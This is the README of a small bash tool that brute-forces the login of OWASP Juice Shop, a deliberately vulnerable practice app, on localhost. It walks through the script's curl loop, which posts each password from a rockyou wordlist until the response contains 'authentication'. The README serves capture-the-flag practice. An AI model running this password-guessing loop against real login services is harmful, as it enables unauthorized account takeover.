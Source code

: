 ﻿# Welcome to Curl Post Brute Force!

Hi! This tool allow you to make post request and it was developed to help you to solve juice shop brute force problems.

## Permission
After you clone the repository give permission to sh file.

    $ sudo chmod +x ./postCurl.sh

# Files

The main file is called **postCurl.sh**.
It's very simple to use, you have to pass three parameters.

> **First**, for juice shop app you'll use the email. e.g admin@juice-sh.op
> **Second**, The host: http://localhost:3000/rest/user/login
> **Third**, You'll need to informe a wordlist

## Example
To execute follow the code bellow and don't forget to grab a cup of coffee.

    $ ./postCurl.sh admin@juice-sh.op http://localhost:3000/user/rest/login /usr/share/wordlist/rockyou.txt

# How it works
First inside the file we have a simple parameters validate.

    if [ "$3" = "" ]; then
	    echo "How to use"
	    echo "./postCurl.sh [USERNAME] [HOST] [WORDLIST]"


After that we have a loop which **cat** a wordlist and put inside of **pass** variable.

    for pass in $(cat $3); do
    
Inside of the loop I made a **curl** request and put the response inside the **chamada** variable.

    chamada=$(curl -s --header "Content-Type: application/json" --request POST --data '{"email":"'$1'", "password":"'$pass'"}' $2)

I used this var to **grep** a specific word in a juice shop response and if the **if** found it, it will prints the username and password on the screen and break the loop.

    if grep "authentication" <<< "$chamada" ; then
		echo "[+] username: "$1 " , password: "$pass
		break
	fi

### Possibles upgrades.
|Feature|Benefits|
|--|--|
|sleep|it's help you not break the service|
|parameter to grep|for this first upload i put a hard code, but the good idea is that you able to choose what you looking for.|

